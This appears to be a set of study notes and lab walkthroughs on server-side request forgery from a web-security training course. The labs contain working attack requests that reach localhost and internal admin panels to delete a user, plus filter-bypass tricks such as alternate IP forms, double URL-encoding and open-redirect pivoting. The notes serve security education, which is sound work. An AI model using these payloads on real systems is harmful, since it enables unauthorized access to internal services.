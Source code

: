 - It allows an attacker to cause the server-side application to make requests to an unintended location.

- A vulnerability that lets an attacker send requests on behalf of a server.

- A successful SSRF attack can often result in unauthorized actions or access to data in the vulnerable application or on other back-end systems that the application can communicate with.

- SSRF attacks can exploit open redirections, proxy services or simple URL vulnerabilities (POST body headers or *Referer* header).

### Types of SSRF:

- **Against the server itself**
- **Against other backend systems**
- **Blind SSRF**

## SSRF attacks against the server itself

The attacker causes the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface. This typically involves supplying a URL with a hostname like `127.0.0.1` or `localhost`.

For example, imagine a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs. It does this by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. When a user views the stock status for an item, their browser makes the following request:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this example, an attacker can modify the request to specify a URL local to the server:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://localhost/admin
```

The server fetches the contents of the `/admin` URL and returns it to the user, but the administrative functionality is normally only accessible to authenticated users. This means an attacker won't see anything of interest. However, if the request to the `/admin` URL comes from the local machine, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.

###### Lab: Basic SSRF against the local server

Intercept the `POST` request for checking the stock of a product:

```http
POST https://0a9600f904f43d3f844b91a500a20013.web-security-academy.net/product/stock HTTP/1.1
```

and edit the body from this:
```http
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
``` 

to this `stockApi=http://localhost/admin/delete?username=carlos`


## SSRF attacks against other back-end systems

In some cases, the application server is able to interact with back-end systems that are not directly reachable by users. In many cases, internal back-end systems contain sensitive functionality that can be accessed without authentication by anyone who is able to interact with the systems.

In the previous example, imagine there is an administrative interface at the back-end URL `https://192.168.0.68/admin`. An attacker can submit the following request to exploit the SSRF vulnerability, and access the administrative interface:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://192.168.0.68/admin
```

###### Lab: Basic SSRF against another back-end system

Intercept the `POST` request for checking the stock of a product:

```http
POST https://0ad700cb04b453db803c76ba000a00ac.web-security-academy.net/product/stock HTTP/1.1
```

and edit the body from this:
```http
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
``` 

to this `stockApi=http://192.168.0.0:8080/admin`. Then fuzz on the IP address (last 256 digits) and take the IP address with the 200 OK response: send again the request with the body `stockApi=http://192.168.0.249:8080/admin/delete?username=carlos` to delete carlos user. 

## Circumventing common SSRF defenses

It is common to see applications containing SSRF behavior together with defenses aimed at preventing malicious exploitation. Often, these defenses can be circumvented.

### SSRF with blacklist-based input filters

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can often circumvent the filter using the following techniques:

- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

###### Lab: SSRF with blacklist-based input filter

Intercept the `POST` request for checking the stock of a product and edit the body:

```http
http://127.1/%2561dmin/delete?username=carlos
```

Practically, we have URL double encoded the 'a' character of admin and changed `localhost` to `127.1`.

### Bypassing SSRF filters via open redirection

It is sometimes possible to bypass filter-based defenses by exploiting an open redirection vulnerability.

In the previous example, imagine the user-submitted URL (`stockAPI`) is strictly validated to prevent malicious exploitation of the SSRF behavior. However, the application contains an open redirection vulnerability.

For example, the application contains an open redirection vulnerability in which the following URL:

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`

returns a redirection to:

`http://evil-user.net`

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. So the application sends a request to the `stockAPI` URL which then makes a redirection to `http://192.168.0.68/admin`.

###### Lab: SSRF with filter bypass via open redirection vulnerability

Notice that the "Next product" request has an open redirect:
```http
GET https://0a8e005504e77ce6806cd0e3002000ba.web-security-academy.net/product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/1.1
```

Now intercept the stock checker request and change the `stockApi` with `stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`. By doing so, the stock checker will call the nextProduct endpoint (with its open redirect) which will redirect to the admin page.

## Blind SSRF vulnerabilities

Blind SSRF vulnerabilities occur if you can cause an application to send a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

Blind SSRF is harder to exploit but sometimes leads to full remote code execution (**RCE**) on the server or other back-end components.



## Prevention

- **Allow lists** (preferred): requests must contain URLs in the list, otherwise they are rejected. Be aware of regexes: they are often used improperly!
- **Disallow lists (or blocklists)**: requests must not contain URLs in the list, otherwise they are rejected. There's always the possibility to bypass the disallow list: if we have disallowed `localhost`, be aware of all its other representations and before checking the disallow list (validation), be sure that the input is in canonical form!
- Don’t allow external links and (if possible) open redirects!